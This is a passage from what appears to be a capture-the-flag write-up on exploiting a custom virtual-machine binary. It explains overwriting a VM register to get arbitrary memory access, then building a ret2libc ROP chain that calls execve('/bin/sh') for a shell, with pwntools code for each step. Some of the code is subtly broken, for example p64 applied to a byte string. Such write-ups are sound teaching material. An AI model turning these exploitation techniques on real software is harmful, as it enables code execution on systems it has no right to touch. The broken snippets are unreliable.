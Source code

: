After we have the address leaks, we can write a final payload to overwrite RIP on the stack with actual libc ROP gadgets and perform ret2libc. This would require to get the `read` syscall to read to stack addresses. There are also no checks performed on the offset that it reads to, which makes this vulnerable.

However, we can't simply just pop an offset to libc into `reg[1]` as each POP only takes in 32 bits and the offset between libc and the heap base is way more than 32 bits. So with this, we only have a partial arbitrary read, where we can read to addresses in the heap and lower addresses.

### VM Shellcoding (read to stack)

We can simply bypass this 32 bit restriction by not using the VM's POP instructions, but to just use the partial arbitrary read we have to read into the address where reg\[1] resides, which contains the offset, then we can write a 64 bit offset to libc to reg\[1]!

```python
reg1_addr = 0x555555570eb8
reg1_offset = reg1_addr - 0x555555570f40

payload = b''
payload += p32(0x16) + p32(0) + p32(0) + p32(0) 
payload += p32(0x16) + p32(1) + p32(reg1_offset & 0xffffffff) + p32(0)
payload += p32(0x16) + p32(2) + p32(256) + p32(0)
payload += p32(0x15) + p32(0) + p32(0x0) + p32(0)   # read(stdin, memory+offset_reg1, 256)
payload += p32(0x15) + p32(0) + p32(0x0) + p32(0)   # read(stdin, memory+stack_offset , 256)

p.send(payload)
pause()

goal_to_write = p64(b'AAAABBBB')
offset = goal_to_write - (heap_leak - 57352)
payload = p64(offset)
p.send(payload) # overwrites reg[1]
```

Breaking at the read right after modifying reg\[1], we can see the next read is reading to any address we control and its a 64 bit address, so we have a full arbitrary read!

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Now we just set this read address to read to the stack and overwrite RIP during the **read** syscall, then use libc ROP gadgets to perform ret2libc and get a shell.

### Classic ret2libc

Nothing special about this part, just create a ROP chain to get `execve("/bin/sh",0,0)` and overwrite at the address where RIP is found on the stack.

```python
pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rbx = libc.address + 0x00000000000904a9
binsh = next(libc.search(b'/bin/sh'))

payload = p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(libc.sym['execve'])
```